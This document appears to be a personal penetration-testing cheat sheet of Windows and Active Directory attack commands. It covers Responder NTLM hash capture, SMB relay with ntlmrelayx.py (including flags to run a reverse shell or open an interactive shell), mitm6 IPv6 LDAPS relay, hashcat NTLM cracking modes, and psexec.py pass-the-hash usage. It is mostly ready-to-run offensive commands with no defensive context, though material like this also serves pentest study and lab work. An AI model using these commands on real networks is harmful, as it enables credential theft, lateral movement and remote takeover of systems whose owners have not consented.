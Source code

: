 	# responder.py

## Getting users hash after getting shell
```
sudo responder -I eth0 -dwv
```


```powershell
# you can get user ntlm hash after getting reverse shell on a target using responder and sending gci command 
sudo responder -I eth0 # on attacker
gci \\10.10.10.10\test\test # on target

```


## SMB Relay 

First we need to:
disable responding on SMB and HTTP edit
```bash
/usr/share/responder/Responder.conf # edit turn off smb and http
```

Then we configure ntlmrelayx.py

### ntlmrelayx.py
```bash
ntlmrelayx.py -tf targets.txt -smb2support

-e # to execute a file (msfvenom rev shell etc.)
-c # command (e.g. whoami)
-6 # for IPv6
-t # target 
-l # loot
# Getting interactive shell
-i # for interactive shell


ntlmrelayx.py -6 -t ldaps://IP -wh  fakewpad.marvel.local -l lootme # IPv6 ldaps attack e.g

-w # wpad
```


### nmap check
```bash
# nmap script to check for smb signing disabled
nmap --script=smb2-security-mode.nse -p445 IP/RANGE
```


# hashcat
hashcat -m # hash code -a ATTACKTYPE 0 or empty hashfile wordlist 
NTLM 1000
NTLMv2 5600



# psexec.py or metasploit #passhash
    used for: 
	    1- passing hashes
		2- creates a remote service by uploading a randomly-named executable to the hidden Windows ADMIN$ share, registering a service via RPC and the Windows Service Control Manager, and then communicating over named a named pipe
	usage 1 : 
	    psexec.py USUERNAME:@IP -hashes HASH
	usage 2 :
	  psexec.py SHARE/ADMIN_ACCOUNT:"PASSWORD\!"@IP
	usage 3 :
      psexec.py DOMAIN/USERNAME:PASSWORD@IP 

## More tools like psexec :

Less noisy start with these
smbexec
wmiexec

# mitm6
```bash
mimt6 -d DOMAIN # start mimt6

# then start relay attack using ntlmrelayx.py
ntlmrelayx.py -6 -t ldaps://DC_IP -wh fakewpad.DOMAIN -l loot


-6 # IPv6
-t # target Domain Controller
-wh # wpad name eg. fakewpad.marvel.local
-l # dump info to file called loot
```